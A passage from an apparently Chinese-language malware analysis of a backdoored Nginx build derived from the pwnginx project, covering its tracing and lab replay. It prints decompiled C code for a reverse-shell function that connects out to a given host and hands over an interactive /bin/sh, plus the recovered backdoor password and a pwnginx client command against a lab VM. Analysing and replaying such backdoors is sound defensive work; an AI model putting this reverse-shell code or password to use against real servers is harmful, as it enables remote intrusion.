 ```c
int __fastcall re_shell(char *host, int port)
{
  char *v2; // rbp
  __pid_t v3; // eax
  int sock_fd; // ebx
  struct hostent *v5; // rax
  sockaddr_in server; // [rsp+0h] [rbp-38h]
  in_addr addr; // [rsp+10h] [rbp-28h]

  v2 = host;
  v3 = fork();
  if ( v3 == -1 )
    exit(-1);
  if ( !v3 )
  {
    setsid();
    sock_fd = socket(2, 1, 0);
    if ( sock_fd == -1 )
      exit(-1);
    server.sin_family = 2;
    server.sin_port = __ROR2__(port, 8);
    if ( !inet_pton(2, host, &addr) )
    {
      v5 = gethostbyname(host);
      if ( !v5 )
        exit(-1);
      v2 = inet_ntoa((struct in_addr)(*(struct in_addr **)v5->h_addr_list)->s_addr);
    }
    server.sin_addr.s_addr = inet_addr(v2);
    if ( connect(sock_fd, (const struct sockaddr *)&server, 0x10u) == -1 )
      exit(-1);
    dup2(sock_fd, STDIN_FILENO);
    dup2(sock_fd, STDOUT_FILENO);
    dup2(sock_fd, STDERR_FILENO);
    close(sock_fd);
    execl("/bin/sh", "/bin/sh", "-i", 0LL, *(_QWORD *)&server.sin_family);
  }
  return 0;
}
```

# 3) Tracing & Replay

后来发现该后门是使用的github上开源项目`pwnginx`经过二次开发后的版本，并且修改了用于来连接和校验的cookie中使用的字段名称，以及增加了第三个后门功能，反弹shell到指定域名。

为了复现攻击环境，在虚拟机中使用CentOS7安装了同版本的Nginx，并把主程序替换成被感染的Nginx样本，并启动Nginx服务。

用另一台Ubuntu虚拟机下载`pwnginx`项目源码后，修正验证密码以及执行功能的匹配字段名，编译客户端，并使分析得到的后门密码`Bo9vrZ6TKBmq`尝试连接该后门

```BASH
root@ubuntu:./pwnginx shell 192.168.89.139 80 Bo9vrZ6TKBmq
```
